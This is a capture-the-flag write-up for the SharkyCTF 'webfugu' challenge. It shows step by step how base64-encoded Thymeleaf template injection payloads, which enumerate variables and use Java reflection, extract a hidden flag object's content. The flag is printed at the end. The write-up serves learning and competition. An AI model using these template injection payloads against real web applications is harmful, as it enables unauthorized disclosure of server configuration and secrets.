 # Problem Statement

A new site listing the different species of fugu fish has appeared on the net. Used by many researchers, it is nevertheless vulnerable. Find the vulnerability and exploit it to recover some of the website configuration.

Creator: MasterFox

http://webfugu.sharkyctf.xyz


# Solution

Need sleep, will write-up later. Short story (keywords/mnemonics): thymeleaf, java, reflection, base64

Load up the site press F12 to bring up dev tools. Hit refresh. Boom, something interesting:

![](../Images/webfugu_1.PNG)

Let's see the full content: http://webfugu.sharkyctf.xyz/process?page=PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI%2BIDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg%2BRGlzY292ZXJ5IHllYXI8L3RoPiA8dGg%2BRGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ%2BIDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ%2BIDwvdHI%2BIDwvdGFibGU%2BIDwvZGl2PiAgICAgIAo=

So, page is

    PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI%2BIDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg%2BRGlzY292ZXJ5IHllYXI8L3RoPiA8dGg%2BRGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ%2BIDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ%2BIDwvdHI%2BIDwvdGFibGU%2BIDwvZGl2PiAgICAgIAo=
    
This looks like a Base64 encoding, but with a twist (notice the %2 and probably others). So I suspect it's a url encoding of a base64 encoding, if that makes sense. Let's see (use any online or commandline tool)

After url decoding:

    PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI+IDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg+RGlzY292ZXJ5IHllYXI8L3RoPiA8dGg+RGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ+IDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ+IDwvdHI+IDwvdGFibGU+IDwvZGl2PiAgICAgIAo=
    
Much better, let's base64 decode:

    <div> <table border="1"> <tr> <th>Name</th> <th>Discovery year</th> <th>Discoverer name</th> </tr> <tr th:each ="fish : ${fishes}"> <td th:utext="${fish.name}">...</td> <td th:utext="${fish.discoveryYear}">...</td> <td th:utext="${fish.discovererName}">...</td> </tr> </table> </div>
    
Hard to read, let's pretty print (we'll base64+url encode either way, it's better to see the structure easier):

    <div>
       <table border="1">
          <tr>
             <th>Name</th>
             <th>Discovery year</th>
             <th>Discoverer name</th>
          </tr>
          <tr th:each ="fish : ${fishes}">
             <td th:utext="${fish.name}">...</td>
             <td th:utext="${fish.discoveryYear}">...</td>
             <td th:utext="${fish.discovererName}">...</td>
          </tr>
      </table>
    </div>

OCD satisfied. On to WTH is this? th:each? I've never seen that. Let's Google:

![](../Images/webfugu_2.PNG)

Thymeleaf. Hmm Thymeleaf

    Thymeleaf is a modern server-side Java template engine for both web and standalone environments. Thymeleaf's main goal is to bring elegant
    
Cool, so Thymeleaf is our new friend who will do our work for us. On to StackOverflow:

![](../Images/webfugu_3.PNG)

Click first link, see a payload vaguely similar in structure to our own html:

    <table>
        <tr th:each="var : ${#vars.getVariableNames()}">
            <td th:text="${var}"></td>
            <td th:text="${#vars.getVariable(var)}"></td>
        </tr>
        ....
    </table>

Let's try to make a payload (in the actual CTF run the first tests were to put arbitrary expressions in like ${3*7} to see if they get executed.)

    <div>
       <table border="1">
          <tr>
             <th>Name</th>
             <th>Discovery year</th>
             <th>Discoverer name</th>
          </tr>
          <tr th:each ="var : ${#vars.getVariableNames()}">
             <td th:utext="${var}"></td>
             <td th:utext="${#vars.getVariable(var)}"></td>
             <td th:utext="${3*2}"></td>
          </tr>
      </table>
    </div>

One base64 encode + url encode later (paranoia perhaps urlencode is no longer needed, since we got rid of some '...' strings in the xml), we get a payload (not pasting the string result, as that can vary because of spacing). We then apply that payload to:

    http://webfugu.sharkyctf.xyz/process?page=PGRpdj4K.....
    
![](../Images/webfugu_4.PNG)

Last thing I wanted to see:"REDACTED", the dread of any CTF-er. :). Not giving up yet, let's dig mnore
    
    <div>
    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="field: ${fishes[0].class.declaredFields}">
         <td th:utext="${field.name}"></td>
         <td th:utext="${2*2}"></td>
         <td th:utext="${3*3}"></td>
      </tr>
    </table>
    </div>

Which got us:

![](../Images/webfugu_5.PNG)

    <div>
    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="field: ${flag.class.declaredFields}">
         <td th:utext="${field.name}"></td>
         <td th:utext="${field}"></td>
         <td th:utext="${3*3}"></td>
      </tr>
    </table>
    </div>
 
Which gets us: 
 
 ![](../Images/webfugu_6.PNG)
    
Aargh! A private field. I spent the next hours fixated on the fact that it's private and trying to find a way to reflect into it (perhaps setting "flag.class.getField("content").setAccessible(true)" before attempting to call flag.class.getField("content").getValue(flag)". If confused, read up on Java Reflection. And I fixated and fixated and fixated.

Luckily, at some point a friend of mine (randomly talking to on phone), who's more into Java, asks me: "what about methods?"

    <div>
    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="method: ${flag.class.getMethods()}">
         <td th:utext="${method.name}"></td>
         <td th:utext="${method}"></td>
         <td th:utext="${3*3}"></td>
      </tr>
    </table>
    </div>
    
Which gets us:

 ![](../Images/webfugu_7.PNG)

Ha! there is a method called getContent() for the flag class. Overthinker that I am I tried to reflect more :) field.class.getMethod("getContent", flag.class).invoke(flag) and other crazy shenanigans all ending in 500's.

But at some point, I stopped and realized the extent of my shortsightedness (and probably could have "guessed", if I had a Java background) as I suspected I could do what I'm about to do with the next payload. I wanted this payload so that when it was successful, I could see the flag multiple times, so I don't miss it :)

    <div>
    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="method: ${flag.class.getMethods()}">
         <td th:utext="${flag.getContent()}"></td>
         <td th:utext="${flag.getContent()}"></td>
         <td th:utext="${flag.getContent()}"></td>
      </tr>
    </table>
    </div>

Wooop, there it iiis!

 ![](../Images/webfugu_8.PNG)

# Flag
shkCTF{w31rd_fishes_6ee9f7aabf6689c6684ad9fd9ffbae5a}
